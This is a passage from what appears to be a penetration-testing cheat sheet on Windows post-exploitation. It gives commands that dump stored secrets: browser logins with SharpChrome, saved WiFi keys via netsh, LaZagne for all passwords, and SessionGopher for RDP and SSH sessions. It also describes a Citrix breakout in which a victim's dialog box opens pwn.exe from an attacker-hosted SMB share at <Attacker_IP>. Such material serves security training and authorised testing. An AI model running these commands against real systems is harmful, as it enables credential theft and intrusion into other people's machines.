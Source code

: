 ```cmd
```

### Browser Credentials
```cmd
# Chrome credentials with SharpChrome
.\SharpChrome.exe logins /unprotect
```

### WiFi Passwords
```cmd
# View saved networks
netsh wlan show profile

# Retrieve password
netsh wlan show profile <SSID> key=clear
```

### Additional Tools
```cmd
# LaZagne - all passwords
.\lazagne.exe all

# SessionGopher - RDP/SSH sessions
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target <Server>
```

---

## 6. Restricted Environments (Citrix Breakout)

### Basic Breakout Methodology
1. Gain access to a Dialog Box
2. Exploit the Dialog Box for command execution
3. Escalate privileges

#### Using Paint for Dialog Box
```cmd
# Step 1: Open Paint
# Step 2: File > Open
# Step 3: Navigate using file name field
# Example: \\127.0.0.1\c$\users\<user>\Desktop
# Step 4: Browse to system directories
```

#### SMB Share Access
```cmd
# Step 1: Create SMB server (Attacker)
impacket-smbserver -smb2support share $(pwd)

# Step 2: In dialog box, navigate to
\\<Attacker_IP>\share

# Step 3: Right-click on the pwn.exe binary and select Open
```
